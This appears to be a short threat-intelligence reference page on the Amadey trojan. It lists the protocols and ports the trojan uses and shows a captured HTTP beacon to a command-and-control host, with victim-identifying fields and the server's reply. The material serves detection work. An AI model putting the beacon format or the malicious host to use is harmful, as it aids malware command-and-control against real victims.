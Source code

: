 # Amadey Trojan

# Protocol:
HTTP
DNS

# Ports:
80
53

# Sample:

```
POST /ppk/index.php HTTP/1.1
Host: gohaiendo.com
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

id=6289217249&vs=1.22&ar=1&bi=0&lv=0&os=9&av=0&pc=USER-PC&un=SYSTEM&

HTTP/1.1 200 OK
Server: nginx
Date: Wed, 24 Apr 2019 15:34:16 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 6
Connection: close

<c><d>
```
